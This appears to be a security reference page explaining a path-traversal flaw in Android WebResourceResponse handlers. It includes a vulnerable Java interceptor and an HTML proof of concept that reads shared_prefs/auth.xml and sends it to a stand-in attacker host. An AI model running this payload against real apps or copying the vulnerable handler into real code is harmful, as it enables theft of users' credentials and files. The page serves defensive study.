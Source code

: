 # WebResourceResponse overview

[WebResourceResponse](https://developer.android.com/reference/android/webkit/WebResourceResponse) is a class that allows an Android application to emulate the server within WebView by intercepting requests and returning arbitrary content (including a status code, content type, content encoding, headers and the response body) from the application's code itself without making any actual requests to the server.

# Security issues

## Access to arbitrary files

If you control a path of the returned file and have a XSS or the ability to open arbitrary links inside a WebView, you can gain access to arbitrary files via XHR requests.

For example, if there is the following `WebResourceResponse` implementation:

```java
WebView webView = findViewById(R.id.webView);
webView.setWebViewClient(new WebViewClient() {
   public WebResourceResponse shouldInterceptRequest(WebView view, WebResourceRequest request) {
       Uri uri = request.getUrl();
       if (uri.getPath().startsWith("/local_cache/")) {
           File cacheFile = new File(getCacheDir(), uri.getLastPathSegment());
           if (cacheFile.exists()) {
               InputStream inputStream;
               try {
                   inputStream = new FileInputStream(cacheFile);
               } catch (IOException e) {
                   return null;
               }
               Map<String, String> headers = new HashMap<>();
               headers.put("Access-Control-Allow-Origin", "*");
               return new WebResourceResponse("text/html", "utf-8", 200, "OK", headers, inputStream);
           }
       }
       return super.shouldInterceptRequest(view, request);
   }
});
```

The PoC for the attack may look like the following one:

```html
<!DOCTYPE html>
<html>
<head>
   <title>Evil page</title>
</head>
<body>
<script type="text/javascript">
   function theftFile(path, callback) {
     var oReq = new XMLHttpRequest();

     oReq.open("GET", "https://any.domain/local_cache/..%2F" + encodeURIComponent(path), true);
     oReq.onload = function(e) {
       callback(oReq.responseText);
     }
     oReq.onerror = function(e) {
       callback(null);
     }
     oReq.send();
   }

   theftFile("shared_prefs/auth.xml", function(contents) {
       location.href = "https://attacker-website.com/?data=" + encodeURIComponent(contents);
   });
</script>
</body>
</html>
```

In the above example, the attack is possible because the `Uri.getLastPathSegment()` returns a decoded value that is used to generate the file path within the `new File(getCacheDir(), uri.getLastPathSegment())` line.

Policies like CORS still work inside a WebView. Therefore, requests to the `any.domain` are not allowed without the `Access-Control-Allow-Origin: *` header. However, this restriction does not affect this PoC since the `WebResourceResponse` implementation checks uses only the URL path and you can replace `any.domain` with the current origin.

References:
- [Writeup: Amazon Shopping and Amazon India Online Shopping apps: Access arbitrary files owned by Amazon apps](https://blog.oversecured.com/Android-Exploring-vulnerabilities-in-WebResourceResponse/#an-overview-of-the-vulnerability-in-amazon%E2%80%99s-apps)

# References

- [Android: Exploring vulnerabilities in WebResourceResponse](https://blog.oversecured.com/Android-Exploring-vulnerabilities-in-WebResourceResponse/)
